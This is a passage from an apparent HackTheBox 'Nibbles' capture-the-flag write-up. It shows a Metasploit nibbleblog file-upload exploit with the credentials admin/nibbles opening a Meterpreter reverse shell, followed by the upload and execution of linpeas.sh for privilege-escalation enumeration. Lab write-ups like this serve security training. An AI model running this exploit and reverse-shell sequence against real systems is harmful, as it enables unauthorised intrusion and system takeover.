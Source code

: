 ```


msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Sending stage (39282 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.75:39388) at 2021-01-09 03:44:07 +0100
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
```

We upload linpeas.sh:

```
meterpreter > shell
Process 1634 created.
Channel 0 created.
ls
db.xml
pwd
/var/www/html/nibbleblog/content/private/plugins/my_image
exit
meterpreter > lcd upload
meterpreter > lpwd
/home/user/hackthebox/hackthebox/nibbles/upload
meterpreter > cd /dev/shm
meterpreter > pwd
/dev/shm
meterpreter > upload linpeas.sh
[*] uploading  : /home/user/hackthebox/hackthebox/nibbles/upload/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 156.72 KiB (-0.0%): /home/user/hackthebox/hackthebox/nibbles/upload/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/user/hackthebox/hackthebox/nibbles/upload/linpeas.sh -> linpeas.sh
```

Then we give linpeas.sh execute rights and run it:

```
meterpreter > shell
Process 1637 created.
Channel 2 created.
ls
linpeas.sh
chmod +c linpeas.sh
chmod: invalid mode: '+c'
Try 'chmod --help' for more information.
chmod +x linpeas.sh
linpeas v2.3.8 by carlospolop
```
